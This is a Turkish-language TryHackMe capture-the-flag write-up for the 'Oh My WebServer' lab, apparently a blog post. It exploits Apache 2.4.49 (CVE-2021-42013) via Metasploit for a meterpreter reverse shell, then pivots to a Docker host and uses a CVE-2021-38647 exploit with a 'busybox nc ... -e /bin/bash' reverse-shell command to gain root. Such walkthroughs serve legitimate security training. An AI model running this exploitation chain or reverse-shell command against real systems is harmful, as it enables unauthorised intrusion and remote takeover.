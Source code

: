 ---
title: 'TryHackMe | Oh My WebServer WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [remote code execution]
render_with_liquid: false

## Özet

Oh My WebServer, Path Traversal zafiyetine sahip bir web uygulamasıdır. Bu zafiyeti Remote Code Execution zafiyetine dönüştürecek bir araçtan yararlanarak sistemden shell elde edeceğiz. Sonrada aynı ağ içerisinde başka bir cihazın daha olduğunu öğrenecek ve cihazın üzerinde çalışan zafiyetli bir porttan yararlanarak sistemden tam yetkili olarak bir bağlantı alacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.247.179
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

Tarama sonucunda 80 portu üzerinde Apache httpd'nin 2.4.49 sürümünün çalıştığını gördüm. Bu sürüm üzerinde bir `Remote Code Execution` zafiyeti bulunuyor. Bu zafiyeti sömürmek için bir metasploitte bir exploit bulunuyor.

## Sömürü aşaması

```console
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> run
[*] Started reverse TCP handler on 10.21.66.61:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.247.179:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.247.179:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.247.179:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.247.179
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.247.179:49630) at 2025-03-29 17:16:48 -0400
[!] This exploit may require manual cleanup of '/tmp/qKPGzNTp' on the target

(Meterpreter 1)(/bin) >
```

Modülü seçtikten sonra gerekli bilgileri doldurdum, exploiti çalıştırdım ve sistemden bir shell elde ettim.

## Yetki yükseltme

### root

`sysinfo` komutunu kullandıktan sonra sisteme atanan IP adresinin `172.17.0.2` olduğunu öğreniyorum.

```console
(Meterpreter 1)(/home) > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.10 (Linux 5.4.0-88-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

IP adresleri rastgele atılmadığından `172.17.0.1` adresinde de bir makine olduğunu düşündüm. Bu makinenin portlarını tespit etmek için bir port tarama aracına ihtiyacımız var. [Bu](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) adresten nmap'in derlenmiş halini indirip, karşı sisteme yüklüyorum.

```console
(Meterpreter 1)(/tmp) > upload nmap
[*] Uploading  : /home/appdone/nmap -> nmap
[*] Uploaded -1.00 B of 5.67 MiB (0.0%): /home/appdone/nmap -> nmap
[*] Completed  : /home/appdone/nmap -> nmap
```

Daha sonra tüm portları taramasını istediğimde aşağıdaki portları tespit etti.

```console
./nmap 172.17.0.1 -p-
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00034s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

Nmap sorun çıkardığından portların versiyonlarını görüntüleyemiyorum. Bunun yerine 5986 numaralı portu internette arattım ve [bu](https://github.com/AlteredSecurity/CVE-2021-38647) exploiti buldum. İndirdikten sonra çalıştırıp root haklarında bağlantıyı elde ediyoruz.

```console
python3 exploit.py
usage: exploit.py [-h] -t TARGETIP [-p TARGETPORT] [-c COMMAND] [-s SCRIPT]
exploit.py: error: the following arguments are required: -t/--TargetIP
python3 exploit.py -t 172.17.0.1 -p 5986 -c "busybox nc 10.21.66.61 1234 -e /bin/bash"
```

Bağlantıyı aldıktan sonra ise geriye sadece root.txt ve user.txt dosyalarından bayrakları almak kalıyor.

```console
cd /root
ls
root.txt
snap
cat root.txt
THM{7f14****011f}
find / -name user.txt 2>/dev/null
id
/var/lib/docker/overlay2/7bd13e3daf4d9139aff4d20f9dedfc340318dd7d2fc5cc6569f3db831a67ccee/merged/root/user.txt
/var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
uid=0(root) gid=0(root) groups=0(root)
cat /var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
THM{eacf***7ac1}
```

